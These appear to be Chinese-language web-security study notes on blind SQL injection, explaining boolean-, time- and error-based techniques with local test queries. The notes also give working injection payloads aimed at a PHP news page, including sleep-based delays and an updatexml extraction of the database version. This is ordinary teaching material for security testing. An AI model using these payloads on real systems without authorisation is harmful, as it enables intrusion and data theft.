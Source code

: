 ![1645185587388-6ff77b3d-01d0-4e9e-8aa3-9e13f84c0807.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132852690-191494568.png)

```plain
#知识点：
1、明确查询方式注入Payload
2、明确查询方式注入产生功能
3、明确SQL盲注延时&布尔&报错

#详细点：
盲注就是在注入过程中，获取的数据不能回显至前端页面。
此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。
解决：常规的联合查询注入不行的情况
我们可以知道盲注分为以下三类：
-基于布尔的SQL盲注-逻辑判断
regexp,like,ascii,left,ord,mid
-基于时间的SQL盲注-延时判断
if,sleep
-基于报错的SQL盲注-报错回显
floor，updatexml，extractvalue
https://www.jianshu.com/p/bc35f8dd4f7c

参考：
like 'ro%'            #判断ro或ro...是否成立 
regexp '^xiaodi[a-z]' #匹配xiaodi及xiaodi...等
if(条件,5,0)           #条件成立 返回5 反之 返回0
sleep(5)              #SQL语句延时执行5秒
mid(a,b,c)            #从位置b开始，截取a字符串的c位
substr(a,b,c)         #从位置b开始，截取字符串a的c长度
left(database(),1)，database() #left(a,b)从左侧截取a的前b位
length(database())=8  #判断数据库database()名的长度
ord=ascii ascii(x)=97 #判断x的ascii码是否等于97

SQL查询方式注入
select,insert,update,delete,orderby等

基本知识本地测试
select * from member where username like 'vi%';
select * from member where username regexp '^x';
select * from member where id=1 and sleep(1);
select * from member where id=1 and if(1>2,sleep(1),0);
select * from member where id=1 and if(1<2,sleep(1),0);
select * from member where id=1 and length(database())=7;
select * from member where id=1 and left(database(),1)='p';
select * from member where id=1 and left(database(),2)='pi';
select * from member where id=1 and substr(database(),1,1)='p';
select * from member where id=1 and substr(database(),2,1)='i';
select * from member where id=1 and ord(left(database(),1))=112;
```

- SQL-盲注&布尔&报错&延时

```plain
#SQL-盲注&布尔&报错&延时
PHP开发项目-输出结果&开启报错
基于延时：都不需要
/blog/news.php?id=1 and if(1=1,sleep(5),0)
基于布尔：有数据库输出判断标准
/blog/news.php?id=1 and length(database())=7
基于报错：有数据库报错处理判断标准
/blog/news.php?id=2 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

知识点：
1、查询方式增删改查四种特性决定，部分是不需要进行数据取出和显示，所以此类注入基本上需要采用盲注才能正常得到结果（黑盒测试可以根据功能判断注入查询方式）如：增加，删除，更新不会显示数据
2、查询方式增删改查四种特性决定应用功能点（会员注册，删除新闻，修改文章等）
在执行SQL语句后，获取的数据：1.输出显示 2.不输出显示
```
